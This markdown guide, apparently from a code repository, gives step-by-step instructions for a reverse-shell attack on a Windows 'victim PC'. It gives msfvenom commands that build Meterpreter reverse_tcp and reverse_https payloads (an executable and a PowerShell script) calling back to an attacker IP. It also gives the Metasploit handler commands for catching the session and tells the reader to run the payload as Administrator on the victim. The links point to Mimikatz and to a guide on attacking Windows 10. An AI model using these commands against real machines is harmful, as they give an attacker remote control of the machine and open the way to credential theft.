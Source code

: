 # Reverse TCP Attack

Follow the below instructions to conduct an attack on a victim PC using a Reverse TCP payload

## Create Windows Binary Payload

The below instructions explain how to create a Windows Binary Payload that can be used to drop on a victim client.

1. On the Attacker Client where Metasploit is installed open a command prompt
2. Run IPConfig to obtain the IP address of the attacker client
3. Then Run the following command

    ```batch
    msfvenom.bat -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.18.48.21 LPORT=4444 -f exe -o C:\Payloads\Payload3.exe
    ```
4. The generated payload is stored in c:\Payloads\


## Create Windows PowerShell Payload

The below instructions explain how to create a PowerShell Payload that can be used to drop on a victim client.

1. On the Attacker Client where Metasploit is installed open a command prompt
2. Run IPConfig to obtain the IP address of the attacker client
3. Then Run the following command

    ```batch
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.18.48.21 LPORT=444 EXITFUNC=thread -f ps1 -o c:\Payloads\Invoke-Shellcode.ps1
    ```

4. The generated payload is stored in c:\Payloads\

## Start Metasploit Handler

Within the Metasploit Console enter the following commands:

```batch
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.18.48.21
set LPORT 4444
set ExitOnSession false
exploit -j -z
```

To list the sessions type
sessions -l

to start interacting with the remote client type
sessions -i 1

## Victim PC

1. Copy the payload executable from the attacker PC to the victim PC.
2. Launch the previously generated payload.exe as Administrator3.

## Post Activities

to be defined

## Resources

- [Creating Metasploit Payloads](https://netsec.ws/?p=331)
- [Mimikatz](https://www.offensive-security.com/metasploit-unleashed/mimikatz/)
- [How to Attack Windows 10 Machine with Metasploit](ttps://resources.infosecinstitute.com/how-to-attack-windows-10-machine-with-metasploit-on-kali-linux/#gref)
